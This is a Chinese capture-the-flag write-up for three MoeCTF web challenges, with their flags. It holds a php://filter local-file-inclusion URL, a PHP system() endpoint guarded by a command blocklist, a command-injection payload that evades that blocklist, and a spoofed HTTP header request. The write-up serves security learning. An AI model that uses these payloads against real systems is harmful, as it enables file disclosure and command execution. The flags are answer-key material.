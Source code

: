 ### **07 ezinclude**

> 参考博客[https://blog.csdn.net/vhkjhwbs/article/details/99728785](https://blog.csdn.net/vhkjhwbs/article/details/99728785)

全程照抄网上的

[`http://47.98.215.112:5000/?file=php://filter/read=convert.base64-encode/resource=flag.php`](http://47.98.215.112:5000/?file=php://filter/read=convert.base64-encode/resource=flag.php)
得到base64字符串，解码Flag

- Flag

    moectf{xdsec6asdgas7ahfsfaxczc}

### **08 babeRCE**

> 参考博客[https://www.cnblogs.com/0yst3r-2046/p/12600073.html](https://www.cnblogs.com/0yst3r-2046/p/12600073.html)

```php
<?php
$rce = $_GET['rce'];
if (isset($rce)) {
if (!preg_match("/cat|more|less|head|tac|tail|nl|od|vi|vim|sort|flag| |\;|[0-9]|\*|\`|\%|\>|\<|\'|\"/i", $rce)) {
system($rce);
}else {
echo "hhhhhhacker!!!"."\n";
}
} else {
highlight_file(**FILE**);
}
```

审查代码看到*cat more less nl tac等* 都被过滤了，ls没被过滤，用`burpsuite` 进行监控，重发

[`http://47.93.215.154:5000/](http://47.93.215.154:5000/)?rce=ls`  发现了flag.php以及index.php，~~绝笔藏在flag，但不能直接看，那就绕过~~

`rce=ca\t${IFS}fla\g.php` ,得到flag

![Untitled](MoeCTF%20NiceAsiv%20fc388a30ccb14bba99988b6f56321c23/Untitled%201.png)

- Flag

    moectf{Do_y0u_l1k3_Rcccccccccccccce?}

### 09 Do you know HTTP?

用BP将GET抓包下来，修改

```php
HS / HTTP/1.1
Host: 47.93.215.154:5002
User-Agent: LT
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
X-Forwarded-For: 127.0.0.1
Referer: www.ltyyds.com
```

得到Flag

- flag

    moectf{HTTPHeaders_1s_s0_ea5y!}
